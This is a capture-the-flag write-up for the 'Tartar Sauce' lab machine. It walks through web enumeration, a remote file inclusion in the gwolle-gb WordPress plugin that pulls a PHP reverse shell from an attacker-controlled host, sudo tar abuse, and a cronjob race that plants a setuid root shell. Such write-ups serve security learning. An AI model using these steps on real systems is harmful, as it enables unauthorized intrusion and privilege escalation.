




# Tartar Sauce

### Machine Info


#### Nmap


##### HTTP (Port 80)
Index Page:


robots.txt:


Gobuster against /webservices/


###### Monstra 3.0.4

Tried to access listed web page in the `robots.txt` but I am only able to access page `/webservices/monstra-3.0.4/`:


It seems like the web server is using application `monstra version 3.0.4`. We know the version so we can search for public exploits:

If we have admin account for `monstra`, we can try `RCE(Remote Code Execution)` with exploit `43348.txt`.


`/webservices/monstra-3.0.4/admin/`:


I can login to the admin dashboard with credential `admin:admin`:


I have admin account and tried to create user, upload file, edit page and create new directory but nothing worked. It is not allowing us to edit web page. This page maybe just a rabbit hole. I think this is not the way in :(


###### WP

From the `gobuster` result, I can check `/wp` page:
  

I checked the source code and the reason why web page is broken is wrong address of the url:


The href should be `http://` not `http:/`.

Let's use `burp` to replace `http:/`:


And we can have better look of web:


To check out if there is a vulnerable plugins or themes, I just tested with `wpscan` and found one vulnerable plugin:


The scan says `gwolle-gb` version is 2.3.10 but it is version `1.5.3`:


The plugin `gwolle version 1.5.3` is vulnerable to `RFI`:


I just followed steps as stated in exploit.

First create malicious `wp-load.php` to get a reveres shell:
```
❯ cp /usr/share/webshells/php/php-reverse-shell.php ./
❯ mv cmd.php wp-load.php
```

And just access from browser:
```
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.37:8888/
```

`nc` listener:



#### www-data to normal user

First just check `sudo` privilege:


User `www-data` can execute command `/bin/tar` as `onuma`. I searched `tar` binary from [gtfobins](https://gtfobins.github.io/gtfobins/tar/) and was able to get method for privilege escalation:




#### User to Root Privilege Escalation

During the enumeration I found interesting file `backuperer` so I just thought there should be some cronjobs related to this file. By using the program `pspy` I just confirmed that there is a cronjob:


`/usr/sbin/backuperer`:

First it cleans up from last time and create new archive with random file name. Then it sleeps for 30 seconds and unzip archive with root privilege and do integrity check. If integrity check success it will report errors and return exit code 2 while it delete every files that created during execution time if it fails. Therefore if we can pass the integrity check step, we can keep the unzipped archive files.

##### Exploit

First create simple `setuid` program:


Archive from kali machine:
```
❯ chmod 6755 setuid_shell
❯ mkdir -p var/www/html
❯ cp setuid_shell var/www/html
❯ tar -zcvf root.tar.gz var/
```


From the victim machine, just download the archive and wait for 5 minutes:


As we can see, we will get random named file `.e4af815........`. Then just change our archive name to that random name file:

Both file have same size which means it is successfully changed.

And wait for 30 seconds again and we will get `check` directory:

The `check` directory with `root:root` owner and group.

From the directory `check` we can find `setuid` program that we created with root privilege:


Just execute `setuid` program and we can get a shell:



And you can get `root.txt` :)
